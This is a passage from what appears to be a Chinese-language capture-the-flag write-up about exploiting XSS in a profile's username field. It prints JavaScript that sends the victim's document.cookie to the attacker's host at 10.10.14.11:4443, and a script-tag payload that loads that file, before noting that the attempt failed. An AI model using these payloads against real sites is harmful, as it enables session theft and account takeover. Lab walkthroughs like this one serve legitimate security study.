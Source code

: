 # XSS 利用

我花了很长时间才想出下一步该做什么！第一个线索是，用户名是脆弱的，原来你可以用它做 XSS。所以首先我找到了这个:

```
function httpGet(theUrl)
{
        var xmlHttp = new XMLHttpRequest();
        xmlHttp.open("GET", theUrl, false);
        xmlHttp.send(null);
        return xmlHttp.responseText;
}
httpGet("https://10.10.14.11:4443/"+document.cookie);
```

我已经把它保存到 Kali 上的一个名为 pencer.js 的文件中，然后在那里启动一个 web 服务器，这样机器就可以访问它。

现在，我们需要在个人资料页面的我的用户名中使用 XSS 来调用它:

![](img/e7f38f81a7a8751356f692dc57696bad.png)

名称字段中的 XSS 有效负载

在这里，我刚刚添加了一个简单的 XSS 回调函数到我的 Kali IP 来获取 pencer.js 文件:

```
<script src="https://10.10.14.11:4443/pencer.js" />
```

然而这没有用:

![](img/9a420c41e12c135a35b539f21bc5f331.png)
